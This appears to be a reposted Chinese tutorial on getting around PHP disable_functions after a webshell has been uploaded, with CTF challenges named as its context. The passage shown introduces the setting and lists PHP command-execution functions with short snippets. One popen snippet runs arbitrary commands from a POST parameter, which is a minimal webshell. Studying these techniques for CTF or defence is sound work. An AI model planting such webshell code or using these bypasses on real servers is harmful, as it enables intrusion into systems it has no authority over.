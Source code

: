> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/lPQ_sITvL40L8vo_-Ol5dA)

前言
--

我们经过千辛万苦拿到的 Webshell 居然 tmd 无法执行系统命令：  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDjNnaXuz2R2EUcKqXl0gP4BNfOoc3lO7TDyfBX52RxPRMNO3DH2dpvg/640?wx_fmt=png)image-20210209142859496

多半是 disable_functions 惹的祸。查看 phpinfo 发现确实设置了 disable_functions：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PD1gCeTgJuicmIhzdl10EwX4icvUOicxnE6IUe7TlBm6tMGIUr1NdkMZnKg/640?wx_fmt=png)image-20210209143246016

千辛万苦拿到的 Shell 却变成了一个空壳，你甘心吗？

本篇文章，我从网上收集并整合了几种常见的绕过 disable_functions 的方法，通过原理介绍并结合典型的 CTF 题目来分享给大家，请大伙尽情享用。

Disable Functions
-----------------

为了安全起见，很多运维人员会禁用 PHP 的一些 “危险” 函数，例如 eval、exec、system 等，将其写在 php.ini 配置文件中，就是我们所说的 disable_functions 了，特别是虚拟主机运营商，为了彻底隔离同服务器的客户，以及避免出现大面积的安全问题，在 disable_functions 的设置中也通常较为严格。

如果在渗透时，上传了 webshell 却因为 disable_functions 禁用了我们函数而无法执行命令的话，这时候就需要想办法进行绕过，突破 disable_functions。

常规绕过（黑名单绕过）
-----------

即便是通过 disable functions 限制危险函数，也可能会有限制不全的情况。如果运维人员安全意识不强或对 PHP 不甚了解的话，则很有可能忽略某些危险函数，常见的有以下几种。

•exec()

```
<?phpecho exec('whoami');?>
```

•shell_exec()

```
<?phpecho shell_exec('whoami');?>
```

•system()

```
<?phpsystem('whoami');?>
```

•passthru()

```
<?phppassthru("whoami");?>
```

•popen()

```
<?php$command=$_POST['cmd'];$handle = popen($command,"r");while(!feof($handle)){            echo fread($handle, 1024);  //fread($handle, 1024);}  pclose($handle);?>
```

